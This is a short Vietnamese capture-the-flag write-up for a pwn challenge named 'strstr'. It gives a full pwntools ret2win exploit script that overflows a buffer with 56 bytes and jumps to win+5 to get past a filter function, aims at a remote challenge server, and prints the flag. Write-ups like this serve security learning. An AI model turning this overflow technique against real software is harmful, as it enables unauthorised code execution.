




# strstr.
## Hướng giải.



- Bài này ret2win đơn giản nhưng hàm `filter` nó sẽ check và so sánh với 1 cái gì đấy.
- Nhưng mà mình rùa đét mình tìm đc cái bug bypass đc hàm `filter` lun :Đ .
```
#!/usr/bin/python3

from pwn import *

exe = ELF('chall', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*0x00000000004013c1
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('103.162.14.116', 12005)
else:
        p = process(exe.path)

GDB()
payload = b'a'*56 + p64(exe.sym['win'] + 5)
sla(b"Do you want to play. Let's play\n", payload)

p.interactive()

```
- Kiếm offset rồi làm như ret2win cơ bản thui , script của mình cho win + 5 theo bản năng ai ngờ rùa pass lun hàm `filter` :)) .

`FLAG: KCSC{bypass_strstr_by_null_byte}`